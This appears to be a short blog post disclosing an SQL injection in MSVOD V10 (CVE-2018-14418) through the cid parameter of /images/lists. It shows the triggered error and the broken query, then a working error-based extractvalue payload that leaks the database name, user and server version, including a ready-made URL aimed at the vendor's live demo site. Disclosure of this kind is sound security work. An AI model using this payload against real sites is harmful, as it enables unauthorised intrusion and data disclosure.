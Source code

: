 +++
title = "MSVOD V10 – SQL Injection"
author = "Hzllaga"
date =  2018-07-17
description = "MSVOD V10 – SQL Injection via /images/lists The $cid parameter controllable."
categories = ["原创"]
tags = ["PHP","SQL注入","CVE"]

+++
MSVOD V10 – SQL Injection via /images/lists

The $cid parameter controllable.<!--more-->

Open the page:/images/lists?cid=’

Then SQL will be error:
{{< highlight sql >}}
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' or ms_atlas.class in (12,13,19,22,23,24,35)) ) LIMIT 1' at line 1
{{< /highlight >}}
And we can see that Error SQL  Statement:
{{< highlight sql >}}
SELECT COUNT(*) AS tp_count FROM `ms_atlas` WHERE ( ms_atlas.status = 1 and ms_atlas.is_check=1 and (ms_atlas.class = ' or ms_atlas.class in (12,13,19,22,23,24,35)) ) LIMIT 1
{{< /highlight >}}
So Final Payload:
{{< highlight sql >}}
/images/lists?cid=13%20)%20ORDER%20BY%201%20desc,extractvalue(rand(),concat(0x7c,database(),0x7c,user(),0x7c,@@version))%20desc%20--%20
{{< /highlight >}}
Official demo:

http://px.msvodx.com/images/lists?cid=13%20)%20ORDER%20BY%201%20desc,extractvalue(rand(),concat(0x7c,database(),0x7c,user(),0x7c,@@version))%20desc%20–%20

![](https://cdn.wtfsec.org/img/20200223164223.png)

CVE:[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-14418](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-14418)

Exploit-DB:[https://www.exploit-db.com/exploits/45062/](https://www.exploit-db.com/exploits/45062/)


